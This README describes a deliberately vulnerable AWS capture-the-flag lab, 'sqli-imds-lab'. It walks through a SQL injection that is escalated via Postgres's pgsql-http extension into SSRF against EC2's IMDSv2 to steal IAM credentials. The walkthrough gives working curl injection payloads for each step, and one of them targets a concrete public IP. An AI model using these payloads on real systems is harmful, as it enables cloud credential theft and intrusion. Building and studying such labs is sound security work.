




# sqli-imds-lab

A deliberately vulnerable AWS lab for hackathon/security-tooling testing:
a public website with a **real SQL injection**, which is escalated — via
the database engine's own outbound-HTTP capability — straight into an
**SSRF against the EC2 instance metadata service (IMDSv2)**, ending in
**stolen IAM credentials**.

Unlike a lot of "SSRF demo" apps, there is no `?url=` webhook or proxy
endpoint anywhere in this app. The *only* injectable surface is a normal
product-search query string. The SSRF happens because the Postgres
database itself has the [`pgsql-http`](https://github.com/pramsey/pgsql-http)
extension installed, which adds SQL functions (`http()`, `http_get()`, ...)
that perform outbound HTTP requests via libcurl and return the response
body as a SQL value. An attacker who can inject SQL can call those
functions directly — no separate app feature required.

**This whole chain was built and verified end-to-end in a local test rig
(real Postgres + real pgsql-http extension + real Flask app + a mock
IMDSv2 server) before being turned into this deliverable.** See
"What was verified" below for exactly what was tested and what wasn't
(real AWS deployment still needs you to run `terraform apply`).

## The attack chain

1. **Recon** — the site is a "ShopMart" product search:
   `GET /products?category=electronics`
2. **Confirm SQL injection** — the `category` param is concatenated
   directly into a `SELECT ... WHERE category = '<category>'` query with
   no parameterization. A single quote breaks it (visible via the
   deliberately verbose error message), and it's exploitable as a classic
   3-column UNION-based injection.
3. **Escalate to SSRF via the DB engine** — instead of exfiltrating table
   data, the injected `UNION SELECT` calls Postgres's `http()` function to
   make the *database server* issue an HTTP `PUT` to
   `http://169.254.169.254/latest/api/token` (the IMDSv2 token
   handshake), reflecting the token back through the `name` column of the
   product table — i.e., directly onto the rendered web page.
4. **Enumerate the IAM role** — a second injected query, now with the
   stolen token attached as `X-aws-ec2-metadata-token`, `GET`s
   `/latest/meta-data/iam/security-credentials/` to read the instance's
   role name.
5. **Steal credentials** — a third injected query `GET`s
   `/latest/meta-data/iam/security-credentials/<role-name>` and the
   temporary `AccessKeyId` / `SecretAccessKey` / `Token` come back in the
   page — full IMDSv2 credential theft, entirely through the SQL
   injection, with no application-level "fetch a URL" feature involved.
6. **Prove impact** — use the stolen credentials to read a flag object
   from a private S3 bucket that only this specific IAM role can access.

## Layout

```
app/               Flask "ShopMart" app (the vulnerable code — read app.py)
db/                Postgres + pgsql-http extension, schema, seed data
docker-compose.yml Wires app + db together
terraform/         All AWS infra: VPC, EC2 (IMDSv2 required), IAM role
                    scoped to one S3 prefix, S3 bucket + flag object
README.md          You are here
```

## Deploy

Prerequisites: an AWS account/credentials with normal EC2/IAM/S3/VPC
create permissions, and Terraform >= 1.5.

```bash
cd terraform
terraform init

# your public IP for the SSH allowlist:
curl -s ifconfig.me

terraform apply \
  -var="my_ip_cidr=<your-ip>/32" \
  -var="key_name=<an-existing-ec2-keypair-or-omit-for-SSM-only>"
```

`terraform apply` takes a couple of minutes; the EC2 `user_data` script
installs Docker, writes out the app/db files, and runs
`docker compose up -d --build` on first boot — give it another minute or
two after `apply` finishes before the site answers on port 80.

Outputs include `app_url`, `iam_role_name`, `flag_bucket`, and `flag_key`.

## Walking the attack chain yourself

Replace `<APP_URL>` below with the `app_url` output (e.g.
`http://1.2.3.4`), and `<ROLE_NAME>` with the `iam_role_name` output
once you've enumerated it in step 2 (or just read it from the Terraform
output — the point is to also *recover* it in step 2, blind).

**1. Confirm the injection and column count**

```
curl "<APP_URL>/products?category=x' ORDER BY 3--"
curl "<APP_URL>/products?category=x' UNION SELECT 1,'a','b'--"
```


**2. Get an IMDSv2 token via the injected query**

```
curl -G "<APP_URL>/products" --data-urlencode "category=x' UNION SELECT 1, (http(ROW('PUT','http://169.254.169.254/latest/api/token',ARRAY[http_header('X-aws-ec2-metadata-token-ttl-seconds','21600')],'','')::http_request)).content, 3 --"
```
```
curl -G "http://54.255.224.223/products" --data-urlencode "category=x' UNION SELECT 1, (http(ROW('PUT','http://169.254.169.254/latest/api/token',ARRAY[http_header('X-aws-ec2-metadata-token-ttl-seconds','21600')],'','')::http_request)).content, 3 --"
```

The token appears in the `Name` column of the rendered table. Save it as
`TOKEN`.

**3. Enumerate the role name**

```
curl -G "<APP_URL>/products" --data-urlencode "category=x' UNION SELECT 1, (http(ROW('GET','http://169.254.169.254/latest/meta-data/iam/security-credentials/',ARRAY[http_header('X-aws-ec2-metadata-token','$TOKEN')],'','')::http_request)).content, 3 --"
```


**4. Steal the credentials**

```
curl -G "<APP_URL>/products" --data-urlencode "category=x' UNION SELECT 1, (http(ROW('GET','http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME>',ARRAY[http_header('X-aws-ec2-metadata-token','$TOKEN')],'','')::http_request)).content, 3 --"
```

The response body contains `AccessKeyId`, `SecretAccessKey`, and `Token`
in the page.

**5. Prove the credentials work**

```bash
export AWS_ACCESS_KEY_ID=...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
aws s3 cp "s3://<flag_bucket>/<flag_key>" - --region ap-southeast-1
```


You should get back `SQLIIMDS{sql_injection_pgsql_http_extension_imdsv2_credential_theft_<player_id>}`.

## What was verified in this session (before real AWS deployment)

- Installed PostgreSQL 16 + built `pgsql-http` from source in the sandbox,
  loaded the extension, created `shopdb` with the exact `products` schema
  and the exact `appuser` role/grants shipped in `db/init.sql`.
- Stood up a mock IMDSv2 server (enforces the same PUT-token-then-GET-
  with-header flow as real EC2 IMDS, including rejecting requests without
  a valid token) and ran the exact three injected UNION payloads above
  against it through `psql` — each step worked and returned the expected
  value (token, then role name, then fake credential JSON).
- Ran the **real Flask app** (`app/app.py`, unmodified) against that same
  Postgres instance and re-ran the full chain as real HTTP GET requests
  with proper URL-encoding, confirming the payloads survive query-string
  encoding and the stolen credentials render correctly inside the actual
  HTML table.
- Parsed every `.tf` file with `python-hcl2` to catch syntax errors (no
  `terraform` binary available in this sandbox — outbound access to
  `releases.hashicorp.com` is blocked here).

**Not done in this session:** no real AWS deployment (no AWS credentials
in this session) — `terraform apply` is on you. The `docker-compose.yml`
build itself also wasn't run in this sandbox (no Docker daemon here); it's
the same Dockerfile/compose structure used successfully in the earlier
`cloudhound-lab` build in this project, so the pattern is proven, but
build it once yourself (`docker compose up --build`) before relying on it
for a live demo.

## Cost & safety

- `t3.micro` is inexpensive but not free — `terraform destroy` when you're
  done, and don't leave it running unattended for days.
- The security group only opens 80 to the world and 22 to your IP; nothing
  else is exposed.
- The IAM role is scoped to `s3:GetObject`/`s3:ListBucket` on exactly one
  bucket prefix (`players/<player_id>/*`) plus SSM Session Manager access
  — it cannot do anything else in your account, so a successful "credential
  theft" demo doesn't hand out broader access than the lab intends.
- Only ever point this at infrastructure you own. Don't repurpose the app
  or scan it from tooling aimed at systems you don't control.
- The `appuser` DB password (`appuserpassword`) is intentionally weak and
  hardcoded in `db/init.sql` — that's fine for an isolated lab, just don't
  reuse this pattern anywhere real.

## Teardown

```bash
cd terraform
terraform destroy -var="my_ip_cidr=<your-ip>/32"
```
